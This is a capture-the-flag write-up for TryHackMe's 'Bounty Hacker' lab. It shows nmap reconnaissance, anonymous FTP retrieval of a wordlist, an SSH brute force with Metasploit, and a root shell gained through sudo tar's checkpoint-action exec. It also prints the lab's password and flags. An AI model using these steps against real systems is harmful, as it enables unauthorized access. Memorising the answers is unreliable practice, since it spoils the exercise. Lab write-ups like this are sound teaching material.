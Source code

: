 # Bounty Hacker

> Platform: TryHackMe
>
> Created by: Sevuhl
>
> Difficulty: Easy

## Reconnaisance

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA bountyhacker
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

Then, we know that there is FTP Server which can be connect to with username as **"ftp"**.
```bash
$ ftp ftp@<TARGET-IP>
```

![img](passivemode.png)

However, we cannot list the file that are in the FTP server as it is in **Passive mode**. So, we need to try **switch to Active mode** by using the command:
```bash
ftp> passive off
```

![img](passiveoff.png)

Now, let's try to retrieve the files by using the **"get"** command:
```bash
ftp> get task.txt

ftp> get locks.txt
```

![img](getfiles.png)

So now, let's try to read the files in our terminal.

![img](readfiles.png)

<details>
<summary><b>Question: Who wrote the task list?</b></summary>
<b>Answer: lin</b>
</details><br>

<details>
<summary><b>Question: What service can you bruteforce with the text file found?</b></summary>
<b>Answer: ssh</b>
</details><br>

## Exploitation

Then, try to bruteforce SSH with the **password that we have retrieved** using **"lin"** as the username. For this, I used Metasploit to ease my process with **verbose mode on**.
```bash
$ msfconsole

msf6 > search aux ssh

msf6 > use auxiliary/scanner/ssh/ssh_login

msf6 auxiliary(scanner/ssh/ssh_login) > options

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS <TARGET-IP>
RHOSTS => <TARGET-IP>

msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE '/PATH/TO/locks.txt'
PASS_FILE => /PATH/TO/locks.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME lin
USERNAME => lin

msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
```

Now, let's run the scanner.

![img](metasploit.png)

<details>
<summary><b>Question: What is the users password?</b></summary>
<b>Answer: RedDr4gonSynd1cat3</b>
</details><br>

Let's connect through SSH using the credentials.

![img](ssh.png)

Nice, now we cat get the user.txt:
```bash
$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```

## 🏳️Flag: user.txt
>**THM{CR1M3_SyNd1C4T3}**

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to get to root.

First we try to check with the sudo permission first:
```bash
$ sudo -l
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Now, let's check [GTFObins - tar](https://gtfobins.github.io/gtfobins/tar/), we can get to root by running the command from the **"Sudo section"**.
```bash
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

$ whoami
root
```

Now, we need to read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**THM{80UN7Y_h4cK3r}**
